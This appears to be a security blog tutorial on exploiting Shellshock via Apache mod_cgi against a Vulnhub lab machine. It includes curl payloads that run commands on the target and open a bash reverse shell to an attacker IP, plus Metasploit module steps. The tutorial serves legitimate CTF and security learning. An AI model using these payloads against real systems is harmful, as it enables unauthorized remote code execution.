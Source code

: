 ```yaml
---
date: 2020-06-25 00:13:15
layout: post
title: "Exploiting a Shellshock Vulnerability"
subtitle:
description: In this article, I will be explaining how you can exploit a shellshock vulnerability manually as well as with metasaploit.
image: /assets/img/uploads/shellshock/shellshock-optimized.png
optimized_image:  /assets/img/uploads/shellshock/shellshock-optimized.png
category: exploitation
tags: CVE-2014-6271
author:
paginate: false
---
```

<p align="justify"> One of the most critical bugs that came out in last decade was Shellshock, a vulnerability which allows attackers to execute arbitrary code via Unix Bash shell remotely. Shellshock is still a very real threat, especially for unpatched systems. It affected most versions of Linux and UNIX-based OSes. Nowadays, you will find this vulnerability in many CTF Challenges, so this article can help you to find a way by exploiting this vulnerability. </p>

## How this Vulnerability Works?

<p align="justify">
It is a security bug in the Unix Bash shell that causes Bash to execute bash commands from environment variables unintentionally. The vulnerability relies in the fact that BASH incorrectly executes trailing commands when it imports a function definition stored into an environment variable. Therefore, an attacker can execute arbitrary commands on the system or exploit other bugs that may exist in Bash's command interpreter, if the attacker has a way to manipulate the environment variable list. </p>

<center><br>
<img src="/assets/img/uploads/shellshock/shellshock-methodology.png">
</center>

Upon running the above command, an affected version of bash will output <b>"vulnerable".</b>


## Manual Exploitation

<p align="justify"> Shellshock is actually an entire family of vulnerabilities consisting of multiple exploitation vectors. In this guide, we will be exploiting the mod_cgi module that is part of the Apache HTTP Server. For this article, I'll be using a bootroot machine <a href="https://www.vulnhub.com/entry/sumo-1,480/">"Sumo:1"</a> from Vulnhub. I've also posted a detailed writeup for this machine, you can find it <a href= "https://infosecarticles.com/sumo-1-vulnhub-walkthrough/"> here.</a></p>

On running a quick nikto scan, we can see that this machine is vulnerable to the Shellshock Vulnerability.

<center><br>
<img src="/assets/img/uploads/shellshock/nikto.png">
</center>

To check the vulnerability, We need to send a request using curl to the target machine and we can see that we retrieved the "id" of current user.

```r
root@kali:~# curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://192.168.1.104/cgi-bin/test/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This exploit works! We were able to modify the environment variable and execute the "id" command. Using the same approach we can also open a reverse shell.

```r
root@kali:~# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.8/9001 0>&1' http://192.168.1.104/cgi-bin/test/test.cgi  
```

<center>
<img src="/assets/img/uploads/shellshock/shell.png">
</center>

<p align="justify"> The User-Agent value used in curl is stored as an environment variable on the remote machine. By default, this is set to <b>HTTP_USER_AGENT=curl/7.47.0</b> when using curl. However, this value can be modified. We can store malicious code that sets up a reverse shell inside this environment variable. </p>

## Exploitation using Metasploit

The same goal can also be achieved using Metasaploit. We can easily search for exploits by using the search command. We have many exploits available but the one we need is apache mod_cgi exploit.

<center><br>
<img src="/assets/img/uploads/shellshock/msf-search.png">
</center>

Load this module by using <b>use [module_name]</b> and then you can type <b>show options</b> to see the list of settings that we can change.

<center><br>
<img src="/assets/img/uploads/shellshock/msf-options.png">
</center>
<p align="justify">
For this attack, we need to set the <b>RHOSTS</b> to IP address of the target machine and <b>TARGETURI</b> to
the path where cgi_script is located. In this case it is /cgi-bin/test/test.cgi. Once these options are configured, we can run <b>check</b> to see if the target is vulnerable and then run the exploit. </p>

<center><br>
<img src="/assets/img/uploads/shellshock/msf-exploit.png">
</center>
<p align="justify"> A meterpreter session is opened, and now we can type <b>shell</b> which opens a shell on the target machine. That’s it! I hope you understood the concept of shellshock vulnerability and how to exploit it. Thanks for reading. Stay tuned for similar tutorials and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a></p>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/zzzZet">Zet Aboard.</a>